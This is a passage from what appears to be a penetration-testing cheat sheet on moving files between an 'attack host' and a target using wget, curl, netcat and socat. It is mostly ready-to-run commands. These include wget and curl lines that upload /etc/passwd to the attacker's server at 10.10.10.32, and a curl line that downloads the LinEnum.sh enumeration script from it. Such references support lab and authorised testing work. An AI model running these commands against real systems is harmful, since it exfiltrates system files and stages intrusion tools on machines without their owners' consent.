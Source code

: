 **Upload via POST:**
```bash
wget --post-file=/etc/passwd http://10.10.10.32:8000/upload
```

### Curl

**Description:** Command-line HTTP client.

**Download File:**
```bash
curl -o LinEnum.sh http://10.10.10.32:8000/LinEnum.sh
```

**Upload File:**
```bash
curl -X POST -F "file=@/etc/passwd" http://10.10.10.32:8000/upload
```

### Nc (Netcat)

**Description:** Network utility for reading/writing network connections.

**Download File:**
```bash
# Attack host
nc -l -p 8000 < file_to_send.txt

# Target host
nc 10.10.10.32 8000 > received_file.txt
```

**Upload File:**
```bash
# Attack host
nc -l -p 8000 > received_file.txt

# Target host
nc 10.10.10.32 8000 < file_to_send.txt
```

### Socat

**Description:** Extended netcat with additional features.

**Download File:**
```bash
# Server
socat TCP-LISTEN:8000,reuseaddr,fork OPEN:/tmp/file.txt,rdonly

# Client
socat TCP:10.10.10.32:8000 OPEN:/tmp/received_file.txt,creat
```

### SSH/SCP

**Description:** Secure Shell utilities.
